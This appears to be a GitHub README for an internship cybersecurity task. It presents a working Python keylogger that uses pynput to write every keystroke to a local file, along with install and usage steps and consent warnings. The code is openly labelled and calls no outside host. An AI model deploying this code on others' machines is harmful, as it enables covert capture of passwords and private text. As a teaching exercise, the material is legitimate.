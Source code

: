 

# Simple Keylogger

This Python script implements a basic keylogger that records and logs keystrokes. It captures keys pressed by the user and saves them to a specified file (`keylog.txt` by default). It is essential to handle ethical considerations and permissions responsibly when working with keyloggers.

## Features

- **Keystroke Logging**: Records each keystroke (including special keys) and logs them to a text file.
- **Graceful Exit**: Stops logging when the `Esc` key is pressed.
- **Error Handling**: Handles different types of key events gracefully using `pynput.keyboard`.

## Requirements

- Python 3.x
- Libraries: pynput

## Installation

1. Install the required libraries using pip:

   ```bash
   pip install pynput
   ```

2. Clone the repository or download the `keylogger.py` script.

## Usage

1. Run the `keylogger.py` script:

   ```bash
   python keylogger.py
   ```

2. Start typing. The keylogger will start recording keystrokes and save them to `keylog.txt`.

3. To stop the keylogger, press the `Esc` key.

## Notes

- **Ethical Considerations**: Ensure that you have explicit permission to use a keylogger, as logging keystrokes without consent may violate privacy laws.
- **File Security**: Store and handle the log file (`keylog.txt`) securely, as it contains sensitive information.
- **Customization**: Modify the script as needed to suit specific requirements, such as changing the log file path or adding additional logging functionality.

## Example

```python
from pynput import keyboard

log_file_path = "keylog.txt"
keys = []

def on_press(key):
    try:
        keys.append(key.char)
        with open(log_file_path, "a") as log_file:
            log_file.write(key.char)
    except AttributeError:
        keys.append(str(key))
        with open(log_file_path, "a") as log_file:
            log_file.write(f" [{str(key)}] ")

def on_release(key):
    if key == keyboard.Key.esc:
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Acknowledgements

This project was created with the support of [Prodigy InfoTech].

## License

This project is licensed under the MIT License - see the LICENSE file for details.


# PRODIGY_CS_04
